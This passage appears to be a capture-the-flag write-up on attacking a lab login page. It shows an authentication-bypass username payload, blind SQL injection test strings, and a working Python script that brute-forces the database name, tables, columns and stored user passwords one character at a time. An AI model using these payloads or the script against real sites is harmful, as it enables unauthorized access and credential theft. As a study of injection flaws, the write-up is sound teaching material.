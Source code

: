 The username `kitty' -- -` and a random password are working to log us as the
user named `kitty`. We are then redirected to the `welcome.php` page where we
can't see much more things than when we registered as a random user.

We are going to use `blind SQL Injections` to dig into the database and get
some informations like the password of the `kitty` user.

### Blind SQLi

General blind SQLi payloads are working for our case, an example is :
- When we try `kitty' and database() like '%%' -- -` as username,
  we are redirected to `welcome.php`.
- When we try `kitty' and database() like 'a%' -- -` as username,
  the website tells us that the username or the password is incorrect.

After a few exploit tries, I didn't figure how compare two strings in SQL with
case sensitivity so I will use the function `MD5` to enable case sensitivity
of comparison between strings.

I did an exploit to leak database name, table name, columns name and table
content :

```python
import sys, requests as req, string

choices = ["users_info", "col_name", "tab_name", "db_name"]

if len(sys.argv) < 2 or sys.argv[1] not in choices:
        print("Usage : exploit.py [users_info|col_name|tab_name|db_name]")
        exit(-1)

choice, alp = sys.argv[1], string.ascii_letters + string.digits + ',;_:!'
cols, url = "", "http://[VM_IP_REDACTED]/index.php"

# MD5 for case sensitive comparison
prefix = "kitty' and md5(substr((select group_concat("

templ = {
  "users_info" : prefix + "id,',',username,',',password) from siteusers),",
  "col_name" : prefix + "column_name) from information_schema.columns where table_name='siteusers'),",
  "tab_name" : prefix + "table_name) from information_schema.tables where table_schema=database()),",
  "db_name" : "kitty' and md5(substr(database(),"
}

# POST data
data = {"username" : "junk1", "passwd" : "junk2"}

# Main Loop
cont, ind = True, 1
while cont:
  cont = False
  for i in alp:
    data["username"] = templ[choice]
    data["username"] += str(ind) +",1)) = md5('" + i + "') -- -"

    if "Welcome" in req.post(url,data=data).text:
      cols += i
      print("[-] Actual result :", cols)
      cont = True
      ind += 1
      break;

print("[+] Result :", cols)
```